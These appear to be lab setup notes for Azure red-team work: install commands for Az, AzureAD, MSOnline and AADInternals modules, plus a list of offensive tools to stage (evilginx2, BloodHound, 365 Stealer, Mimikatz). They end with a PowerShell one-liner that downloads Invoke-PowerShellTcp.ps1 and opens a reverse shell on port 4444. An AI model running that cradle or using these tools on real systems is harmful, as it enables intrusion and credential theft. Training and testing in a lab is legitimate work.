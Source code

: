 https://github.com/mgeeky/AzureRT

```
Install-Module Az -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AzureAD -Force -Confirm -AllowClobber -Scope AllUsers

A
echo "Next part is optional"
Install-Module Microsoft.Graph -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module MSOnline -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AzureADPreview -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AADInternals -Force -Confirm -AllowClobber -Scope AllUsers
```

```
Import-Module Az
Import-Module AzureAD
```
OR get AzureRT to download all modules automagically:
```
. .\AzureRT.ps1
Import-ARTModules
```

Download:
- XAMPP
- evilginx2
- Bloodhound
- Neo4j
- ROADTools

Put in `C:\xampp\htdocs`:
- 365 Stealer
- ```Invoke-Mimikatz.ps1```
- ```Invoke-PowerShellTcp.ps1```
- ```studentx.ps1``` (uses the invoke-powershell.ps1 script to establish revshell):
```
powershell "IEX (New-Object Net.Webclient).downloadstring('http://172.16.152.213/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.152.213 -Port 4444"
```


